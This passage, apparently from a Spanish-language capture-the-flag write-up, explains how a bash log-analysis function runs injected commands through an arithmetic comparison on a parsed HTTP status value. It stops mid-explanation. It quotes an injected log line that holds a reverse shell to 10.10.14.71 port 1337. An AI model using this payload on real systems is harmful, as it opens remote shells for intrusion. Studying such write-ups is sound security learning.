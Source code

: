 Al momento de extraer lo que sigue de HTTP Status no verifica si es un comando por ende cuando lo procesa lo ejecuta

```bash

analyze_http_statuses() {

    while IFS= read -r line; do

        code=$(echo "$line" | grep -oP 'Status: \K.*')

        found=0

        # Check if code exists in STATUS_CODES array

        for i in "${!STATUS_CODES[@]}"; do

            existing_entry="${STATUS_CODES[$i]}"

            existing_code=$(echo "$existing_entry" | cut -d':' -f1)

            existing_count=$(echo "$existing_entry" | cut -d':' -f2)

            if [[ "$existing_code" -eq "$code" ]]; then

                new_count=$((existing_count + 1))

                STATUS_CODES[$i]="${existing_code}:${new_count}"

                break

            fi

        done

    done < <(grep "HTTP.*Status: " "$LOG_FILE")

}

```


- **`while IFS= read -r line; do ... done < <(grep "HTTP.*Status: " "$LOG_FILE")`**: Este bucle lee cada línea del archivo de log que contiene la cadena "HTTP" seguida de "Status: ". La línea maliciosa que inyectaste (`HTTP Status: x[$(/bin/bash -i >& /dev/tcp/10.10.14.71/1337 0>&1)]`) cumple con este patrón, por lo que será procesada por este bucle.

- **`code=$(echo "$line" | grep -oP 'Status: \K.*')`**: Esta es la línea clave donde se procesa el comando malicioso.

    - `echo "$line"`: Envía la línea completa del log (incluyendo el código inyectado) a la tubería.
    - `grep -oP 'Status: \K.*'`: Esta parte del comando busca la cadena "Status: " y, gracias a la opción `-oP` y `\K`, extrae solo la parte que sigue a "Status: ". En el caso de la línea maliciosa, la variable `code` contendrá:
